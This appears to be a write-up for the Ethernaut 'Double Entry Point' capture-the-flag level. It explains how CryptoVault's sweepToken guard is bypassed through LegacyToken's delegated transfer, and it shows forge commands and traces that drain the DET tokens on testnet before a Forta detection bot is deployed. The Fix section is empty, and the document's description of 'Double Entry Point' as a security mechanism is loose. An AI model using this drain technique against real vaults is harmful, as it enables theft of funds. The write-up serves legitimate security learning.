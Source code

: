 # Double Entry Point

This level features a `CryptoVault` with special functionality, the `sweepToken` function. This is a common function used to retrieve tokens stuck in a contract. The `CryptoVault` operates with an `underlying` token that can't be swept, as it is an important core logic component of the `CryptoVault`. Any other tokens can be swept.

The underlying token is an instance of the DET token implemented in the `DoubleEntryPoint` contract definition and the `CryptoVault` holds 100 units of it. Additionally the `CryptoVault` also holds 100 of `LegacyToken LGT`.

In this level you should figure out where the bug is in `CryptoVault` and protect it from being drained out of tokens.

The contract features a `Forta` contract where any user can register its own `detection bot` contract. `Forta` is a decentralized, community-based monitoring network to detect threats and anomalies on DeFi, NFT, governance, bridges and other Web3 systems as quickly as possible. Your job is to implement a detection bot and register it in the `Forta` contract. The bot's implementation will need to raise correct alerts to prevent potential attacks or bug exploits.

[Contract ABI Specification](https://docs.soliditylang.org/en/latest/abi-spec.html#contract-abi-specification)

[Forta docs](https://docs.forta.network/en/latest/quickstart/)

## Double Entry Point (DEP)

A `Double Entry Point (DEP)` in the context of token contracts is a security mechanism designed to protect smart contracts, especially those handling tokens, from unauthorized access or vulnerabilities.

While the term `Double Entry Point` isn't standard in Ethereum or smart contract development, the concept can be inferred to involve an additional layer of security or validation before certain actions can be performed, particularly those that could lead to the unauthorized movement of tokens.

### Conceptual Overview

1. `Standard Token Contract`: A typical token contract allows users to transfer tokens from one account to another. It includes functions like `transfer` and `approve`, which, if not properly secured, could be exploited.
2. `Double Entry Point Mechanism`: Introduces an additional layer or checkpoint before executing sensitive operations. This could be implemented in various ways, such as:
   - `Proxy Contracts`: A `DEP` might use a proxy contract that forwards calls to the main token contract. The proxy can contain additional checks or logic to validate transactions before they reach the token contract.
   - `Detection Bots`: A system like `Forta` allows for the registration of detection bots. These bots can monitor transactions for suspicious activity and potentially halt or flag transactions before they are executed, acting as a `DEP` by providing an additional validation step.


## Vulnerability

1. Initial setup:
   1. `CryptoVault` holds DET tokens and possibly other ERC20 tokens.
   2. `LegacyToken (LGT)` is an ERC20 token with an added delegation feature.
   3. `DoubleEntryPoint` is another ERC20 token (`DET`) that implements `DelegateERC20^ for delegation purposes and has a reference to `CryptoVault`.
2. Safeguard:
   1. `CryptoVault` has a `sweepToken` function designed to transfer any ERC20 token it holds to a predefined recipient, except for its underlying token (`DET` in this case), to prevent draining the vault of its primary asset.
3. Attack:
   1. The attacker notices that `LegacyToken (LGT)` can delegate its transfer function to another contract (`DoubleEntryPoint`) through `delegate.delegateTransfer`.
   2. The attacker invokes `sweepToken` on `CryptoVault`, specifying the `LGT` token as the token to sweep.
   3. `CryptoVault` checks if `LGT` is the underlying token (`DET`), which it's not, so it proceeds.
   4. `CryptoVault` calls `LGT.transfer`, intending to transfer LGT tokens.
4. Exploiting the delegation:
   1. `LegacyToken`'s `transfer` function is overridden to delegate the transfer to `DoubleEntryPoint` if a delegate is set.
   2. The call becomes `DoubleEntryPoint.delegateTransfer`, with the `to` parameter being the `sweptTokensRecipient`, the `value` being `CryptoVault`'s total balance of `LGT`, and `msg.sender` being `CryptoVault`.
5. Bypassing Safeguards:
   1. In `DoubleEntryPoint`, the `delegateTransfer` function checks if `msg.sender` is the `LegacyToken` contract, which it is, thus bypassing the `onlyDelegateFrom` modifier.
   2. The `fortaNotify` modifier is designed to interact with a `Forta` detection bot but does not prevent the transfer.
   3. `DoubleEntryPoint` then transfers `DET` tokens (the underlying asset of `CryptoVault` that was supposed to be safeguarded) to the specified recipient, effectively draining the vault of its primary asset.

## Attack

1. Context scan.

```bash
forge script script/DoubleEntryPointScan.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --legacy -vvvv

Traces:
  [19238] DoubleEntryPointScan::run()
    ├─ [0] VM::startBroadcast()
    │   └─ ← [Return] 
    ├─ [2404] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C::cryptoVault() [staticcall]
    │   └─ ← [Return] 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760 # CryptoVault contract
    ├─ [2347] 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760::underlying()
    │   └─ ← [Return] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C # DoubleEntryPoint/Ethernaut contract
    ├─ [2383] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C::delegatedFrom() [staticcall]
    │   └─ ← [Return] 0x9220518ea80d4014e1895dba20B7F77f5655E57B # Legacy token contract
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop]
```

2. Deploy `DoubleEntryPointAttack` contract to swept DET tokens.

```bash
forge script script/DeployDoubleEntryPointAttack.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY -vvvv --legacy

Traces:
  [116080] DeployDoubleEntryPointAttack::run()
    ├─ [0] VM::startBroadcast()
    │   └─ ← [Return] 
    ├─ [2404] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C::cryptoVault() [staticcall]
    │   └─ ← [Return] 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760
    ├─ [2347] 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760::underlying() [staticcall]
    │   └─ ← [Return] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C
    ├─ [2383] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C::delegatedFrom() [staticcall]
    │   └─ ← [Return] 0x9220518ea80d4014e1895dba20B7F77f5655E57B
    ├─ [57067] 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760::sweepToken(0x9220518ea80d4014e1895dba20B7F77f5655E57B)
    │   ├─ [2557] 0x9220518ea80d4014e1895dba20B7F77f5655E57B::balanceOf(0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760) [staticcall]
    │   │   └─ ← [Return] 100000000000000000000 [1e20]
    │   ├─ [48677] 0x9220518ea80d4014e1895dba20B7F77f5655E57B::transfer(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 100000000000000000000 [1e20])
    │   │   ├─ [45519] 0x055b8Ca8dd26e6932E24dB7F9c2e0569faAE770C::delegateTransfer(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 100000000000000000000 [1e20], 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760)
    │   │   │   ├─ [2573] 0xe3F601d50e9f312ddDc250f00176D2f5619d1785::usersDetectionBots(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2) [staticcall]
    │   │   │   │   └─ ← [Return] 0x0000000000000000000000000000000000000000
    │   │   │   ├─ [2541] 0xe3F601d50e9f312ddDc250f00176D2f5619d1785::botRaisedAlerts(0x0000000000000000000000000000000000000000) [staticcall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   ├─ [758] 0xe3F601d50e9f312ddDc250f00176D2f5619d1785::notify(0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, 0x9cd1a12100000000000000000000000064dd9d94818a2ca2e95c31b084aef0cc92e86da20000000000000000000000000000000000000000000000056bc75e2d63100000000000000000000000000000faf657db02db174eb45ec8a0f5c8c45e0f1c9760)
    │   │   │   │   └─ ← [Stop] 
    │   │   │   ├─ emit Transfer(from: 0xFAf657dB02Db174eB45eC8A0f5C8C45E0F1c9760, to: 0x64Dd9D94818A2CA2e95c31B084aeF0CC92e86dA2, value: 100000000000000000000 [1e20])
    │   │   │   ├─ [541] 0xe3F601d50e9f312ddDc250f00176D2f5619d1785::botRaisedAlerts(0x0000000000000000000000000000000000000000) [staticcall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   └─ ← [Return] true
    │   │   └─ ← [Return] true
    │   └─ ← [Stop] 
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop]

# https://sepolia.etherscan.io/tx/0x6ffc455b6abc65384b1972b93d1a5b29ce9b47cbfe4e43453f9a07f1e0256ac3
```

## Forta Bot

1. Deploy `FortaBot`

```bash
forge script script/DeployFortaBot.s.sol --rpc-url $ALCHEMY_RPC_URL --private-key $PRIVATE_KEY --broadcast --legacy -vvvv

Traces:
  [193286] RegisterBot::run()
    ├─ [0] VM::startBroadcast()
    │   └─ ← [Return] 
    ├─ [100478] → new FortaBot@0x6108Bb9aB947A05C2b39926a1da9e4dAA8852A6d
    │   └─ ← [Return] 390 bytes of code
    ├─ [2381] 0xd2ed0d4BcB72DaD1f452a1Fb865EE326c27AD865::forta() [staticcall]
    │   └─ ← [Return] 0xd947c7EA648780B416ebA96fCa13FB7D63aeDD30
    ├─ [22515] 0xd947c7EA648780B416ebA96fCa13FB7D63aeDD30::setDetectionBot(FortaBot: [0x6108Bb9aB947A05C2b39926a1da9e4dAA8852A6d])
    │   └─ ← [Stop] 
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop]
```


## Fix

